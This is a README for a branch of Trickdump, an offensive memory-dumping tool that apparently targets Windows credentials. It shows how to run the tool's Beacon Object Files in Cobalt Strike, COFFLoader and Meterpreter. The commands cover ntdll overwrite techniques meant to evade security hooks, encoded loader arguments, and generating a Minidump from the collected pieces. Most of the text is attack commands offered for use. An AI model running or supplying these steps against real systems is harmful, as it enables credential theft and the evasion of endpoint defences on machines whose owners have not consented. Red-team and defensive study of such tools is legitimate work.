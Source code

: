 # Trickdump - "bof-flavour" branch

This branch implements the same functionality as the main branch but using BOFs (Beacon Object Files).

You can execute the files using Cobalt Strike, TrustedSec's [COFFLoader](https://github.com/trustedsec/COFFLoader) or Meterpreter's [bofloader module](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-executebof-command.html).


-----------------------------------------

## Cobalt Strike

First import the aggressor scripts:

![bof1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF1.png)

Each BOF file has one optional input argument for overwriting ntdll.dll:
- "disk": Using a DLL already on disk. The default path is "C:\Windows\System32\ntdll.dll".    
- "knowndlls": Using the KnownDlls folder.
- "debugproc": Using a process created in debug mode. The default process is "c:\windows\system32\calc.exe".

```
lock <OVERWRITE_TECHNIQUE>
```

![bof2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF2.png)

```
shock <OVERWRITE_TECHNIQUE>
```

![bof3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF3.png)

```
barrel <OVERWRITE_TECHNIQUE>
``` 

![bof4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF4.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
trick <OVERWRITE_TECHNIQUE>
```

![bof6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF6.png)

Finally generate the Minidump file:

```
python3 create_dump.py [-l LOCK_JSON] [-s SHOCK_JSON] [-b BARREL_JSON] [-z BARREL_ZIP] [-o OUTPUT_FILE]
```

![bof7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF7.png)


-----------------------------------------

## COFFLoader

```
COFFLoader64.exe go <BOF_FILE> <OVERWRITE_TECHNIQUE>
```

The argument to overwrite the ntdll library must be generated using COFFLoader's [beacon_generate.py script](https://github.com/trustedsec/COFFLoader/blob/main/beacon_generate.py):
- "disk": Use the value 09000000050000006469736b00
- "knowndlls": Use the value 0e0000000a0000006b6e6f776e646c6c7300
- "debugproc": Use the value 0e0000000a000000646562756770726f6300
  
Examples running each BOF file with a differente overwrite technique:

```
COFFLoader64.exe go lock_bof.o 09000000050000006469736b00
```

![bof8](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF8.png)

```
COFFLoader64.exe go shock_bof.o 0e0000000a0000006b6e6f776e646c6c7300
```

![img9](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF9.png)

```
COFFLoader64.exe go barrel_bof.o 0e0000000a000000646562756770726f6300
```

![img10](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF10.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
COFFLoader64.exe go trick_bof.o <OVERWRITE_TECHNIQUE>
```

![img12](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF12.png)


--------------------------------------

## Meterpreter's bofloader module

You can run the BOF files in your Meterpreter session after loading the "bofloader" module and using "--format-string z <technique>" to use a ntdll overwrite technique:

```
load bofloader
execute_bof lock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof shock_bof.o --format-string z <OVERWRITE_TECHNIQUE>
execute_bof barrel_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img14](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF14.png)

If you prefer to generate all the files at the same time, run the Trick BOF:

```
execute_bof trick_bof.o --format-string z <OVERWRITE_TECHNIQUE>
```

![img16](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/trickdump/Screenshot_BOF16.png)
